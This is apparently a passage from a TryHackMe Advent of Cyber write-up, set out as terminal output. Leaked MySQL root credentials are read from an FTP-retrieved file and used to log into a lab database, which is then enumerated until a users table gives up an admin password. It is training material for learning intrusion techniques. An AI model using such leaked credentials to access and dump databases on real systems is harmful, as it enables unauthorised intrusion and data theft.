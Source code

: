 ```
ftp> exit
221 Goodbye.
bibo318@parrot:~/CTFs/tryhackme/Advent of Cyber$ cat file.txt
remember to wipe mysql:
root
ff912ABD*
```

`file.txt`

3. What is the password after enumerating the database?

```
bibo318@parrot:~/CTFs/tryhackme/Advent of Cyber$ mysql -h 10.10.89.226 -uroot -pff912ABD*
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 4
Server version: 5.7.28 MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| data               |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.030 sec)

MySQL [(none)]> use data;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| USERS          |
+----------------+
1 row in set (0.030 sec)

MySQL [data]> select * from USERS;
+-------+--------------+
| name  | password     |
+-------+--------------+
| admin | bestpassword |
+-------+--------------+
1 row in set (0.035 sec)

MySQL [data]> exit
Bye
```
